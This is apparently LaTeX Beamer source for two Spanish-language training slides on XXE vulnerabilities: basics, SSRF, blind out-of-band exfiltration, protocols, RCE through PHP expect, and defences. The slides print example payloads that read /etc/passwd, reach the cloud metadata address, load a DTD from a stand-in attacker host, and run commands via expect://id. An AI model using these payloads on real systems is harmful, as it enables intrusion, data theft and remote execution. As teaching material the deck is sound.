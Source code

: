 \documentclass[aspectratio=169,10pt]{beamer}
\begin{document}
\begin{frame}[allowframebreaks]{XML External Entity (XXE) --- fundamentos}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Qué es y por qué importa
  \item XML se usa muchísimo (PDF, RSS, SVG, SOAP, config\dots{}). El parser
  \item puede procesar ENTIDADES externas $\rightarrow$ ahí está el fallo.
  \item DTD y entidades
  \item \textless{}!DOCTYPE x [ \textless{}!ENTITY xxe SYSTEM 'file:///etc/passwd'\textgreater{} ]\textgreater{}
  \item \textless{}foo\textgreater{}\&xxe;\textless{}/foo\textgreater{} $\rightarrow$ el parser inserta el fichero
  \item XXE $\rightarrow$ SSRF
  \item \textless{}!ENTITY xxe SYSTEM 'http://169.254.169.254/...'\textgreater{}
  \item Acceder a servicios internos / metadata cloud.
  \item PortSwigger XXE $\cdot$ OWASP XXE
  \item XML con entidad externa
  \item el parser la resuelve
  \item (file:///etc/passwd)
  \item contenido en la respuesta
  \end{itemize}
\end{frame}

\begin{frame}[allowframebreaks]{XXE --- blind, protocolos y RCE}
\small
  \begin{itemize}
  \item Vulnerabilidades Web
  \item Blind / out-of-band
  \item Sin respuesta visible $\rightarrow$ un DTD externo exfiltra por HTTP/DNS.
  \item \textless{}!ENTITY \% d SYSTEM 'http://atk/evil.dtd'\textgreater{} \%d;
  \item Protocolos útiles
  \item file:// $\cdot$ http:// $\cdot$ ftp:// $\cdot$ php://filter (base64 del fichero)
  \item RCE vía expect (PHP)
  \item \textless{}!ENTITY x SYSTEM 'expect://id'\textgreater{} (si el módulo expect está activo)
  \item Defensa
  \item Deshabilitar DTD/entidades externas en el parser; parsers
  \item seguros; validar entrada; actualizar librerías.
  \item pwny.cc --- XML External Entity (XXE)
  \end{itemize}
\end{frame}
\end{document}

